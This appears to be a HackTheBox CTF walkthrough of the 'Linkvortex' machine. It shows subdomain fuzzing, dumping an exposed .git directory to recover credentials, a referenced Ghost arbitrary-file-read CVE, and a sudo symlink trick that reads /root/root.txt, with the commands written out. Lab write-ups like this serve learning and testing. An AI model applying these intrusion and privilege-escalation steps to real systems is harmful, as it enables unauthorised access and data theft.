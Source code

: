 ```yaml
---
title: "Linkvortex"
date: 2023-12-29
categories: HTB
tags: ["linkvortex", "htb walkthrough", "ctf", "cybersecurity", "hackthebox", "htb writeup", "penetration testing", "writeup", "htb"]
---
```


# Linkvortex

# Credentials
| Username | Password | Hash | Source |
| -------- | -------- | ---- | ------ |
|          |          |      |        |
# Notes


# Enumeration
- Fuzzing subdomain gave `dev.linkvortex.htb`
- `git diff --staged` provides credentials.
- Logging into the admin panel with the credentials shows the version number

# Directory Fuzzing
```text
http://linkvortex.htb/ghost/assets/
http://linkvortex.htb/assets/
http://dev.linkvortex.htb/.git

ffuf -u http://linkvortex.htb -H "Host: FUZZ.linkvortex.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```

![[Pasted image 20250117125044.png]]
# Screenshots

http://dev.linkvortex.htb
![[Pasted image 20250117124820.png]]

http://linkvortex.htb/ghost/assets/
![[Pasted image 20250117124508.png]]
http://linkvortex.htb/assets/
![[Pasted image 20250117124548.png]]

![[Pasted image 20250117123835.png]]

# Git
```sh
git-dumper http://dev.linkvortex.htb/.git ~/LinkVortex/git
```

![[Pasted image 20250117125449.png]]
```text
0000000000000000000000000000000000000000 299cdb4387763f850887275a716153e84793077d root <dev@linkvortex.htb> 1730322603 +0000	clone: from https://github.com/TryGhost/Ghost.git
```

![[Pasted image 20250117134405.png]]


![[Pasted image 20250117134450.png]]

```text
const email = 'test@example.com';
-            const password = 'thisissupersafe';
+            const password = 'OctopiFociPilfer45';
```

![[Pasted image 20250117140032.png]]

> `admin@linkvortex.htb` worked for the password `OctopiFociPilfer45`

![[Pasted image 20250117140928.png]]

https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028/blob/master/CVE-2023-40028

![[Pasted image 20250117141249.png]]

From git
![[Pasted image 20250117142242.png]]

![[Pasted image 20250117142322.png]]

New credentials found

```text
bob@linkvortex.htb
fibber-talented-worth
```

![[Pasted image 20250117142436.png]]



# Foothold
- CVE 2023-40028 arbitrary file read
- Looking at file output on the git command shows another credentials.
- SSH as bob user.

# Lateral Movement
- N/A

# Privilege Escalation
- Running *lse.sh* shows that the bob user can run `/opt/ghost/clean_symlink.sh` script on all png files.
- `ln -s` to create a symlink on `/root/root/txt`

![[Pasted image 20250117142920.png]]
![[Pasted image 20250117143148.png]]

# clean_symlink.sh
![[Pasted image 20250117143436.png]]

`ln -s ` : Creating a symlink 

```sh
bob@linkvortex:~$ ln -s /root/root.txt abc.txt
bob@linkvortex:~$ ln -s /home/bob/abc.txt abc.png
bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/hyh.png
```

```sh
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/abc.png
```

![[Pasted image 20250117144045.png]]
